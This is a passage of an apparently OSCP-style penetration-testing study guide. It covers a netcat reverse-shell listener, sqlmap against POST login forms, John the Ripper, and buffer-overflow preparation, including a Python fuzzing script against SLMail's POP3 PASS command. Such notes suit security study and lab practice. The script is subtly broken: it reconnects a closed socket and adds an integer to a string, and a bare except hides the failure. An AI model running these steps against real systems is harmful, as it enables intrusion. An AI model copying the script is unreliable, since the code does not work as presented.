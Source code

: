     Before visiting the page, you should set up the listener.

    ```bash
    nc -nlvp 1234
    ```

6. Since the `POST` method doesn't show the data as query parameters, you will have to use the `--data` option of `sqlmap`. More information on using `sqlmap` with `POST` can be found [here](https://www.binarytides.com/using-sqlmap-with-login-forms/).

7. John the Ripper is a useful piece of software in Kali that can crack passwords.

<span id="exploiting-buffer-overflows" />

## Exploiting Buffer Overflows

<span id="resources-1" />

### Resources

Before attempting a buffer overflow, you should read up on how the CPU works on a low level.
1. [Program Counter / Instruction Pointer](https://en.wikipedia.org/wiki/Program_counter) 
2. [Call Stack](https://en.wikipedia.org/wiki/Call_stack)
3. [Buffer Overflow Overview](http://www.cse.scu.edu/~tschwarz/coen152_05/Lectures/BufferOverflow.html)
4. [SLMail Buffer Overflow Tutorial](https://www.hugohirsh.com/?p=509)
5. [Writing An Exploit](https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/)
6. [Simple Buffer Overflows](https://netsec.ws/?p=180)

<span id="steps-1" />

### Steps

1. Setup the machine with the vulnerability and open Immunity Debugger.

2. Attach Immunity Debugger to the application and start it up.

3. Determine how to cause the buffer overflow - you will most likely be told. When you know, you can start to fuzz the input to cause a crash. The following script was used for SLMail and comes from [here](https://www.hugohirsh.com/?p=509).

    ```python
    # SLMail Tutorial
    import socket
     
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     
    buffer = "A" * 100
     
    while len(buffer) <= 4000:
        try:
            print "We are fuzzing with a length of %s bytes" % len(buffer)
            s.connect(('<address>', 110))
            data = s.recv(1024)
            s.send('USER user ' + '\r\n')
            data = s.recv(1024)
            s.send('PASS ' + buffer + '\r\n')
            data = s.recv(1024)
            s.close()
            buffer += 200
        except:
            print "Could not connect to POP3 for some reason..."
    ```
